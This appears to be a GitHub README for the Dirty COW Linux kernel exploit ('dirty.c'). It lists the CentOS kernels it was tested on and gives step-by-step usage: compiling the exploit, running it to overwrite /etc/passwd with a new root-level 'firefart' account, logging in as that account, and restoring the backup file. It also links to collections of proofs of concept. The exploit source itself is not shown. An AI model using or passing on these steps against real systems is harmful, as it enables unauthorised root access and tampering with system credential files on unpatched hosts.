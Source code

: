 ### Tested OS

| OS Ver | Kernel Ver | Result |
| ----- | ----- | ----- |
| CentOS release 5.9 (Final) | Linux 2.6.18-348.el5 | :x: |
| CentOS release 6.6 (Final) | Linux 2.6.32-504.el6.x86_64 | :+1: | 
| CentOS release 6.10 (Final) | Linux 2.6.32-754.28.1.el6.x86_64 | :x: | 



### Uasge
1. `gcc -pthread dirty.c -o dirty -lcrypt`
2. `./dirty` or `./dirty my-new-password`
3. `su firefart` or `ssh firefart@...`
4. `mv /tmp/passwd.bak /etc/passwd`


### Others
+ https://dirtycow.ninja/
+ https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
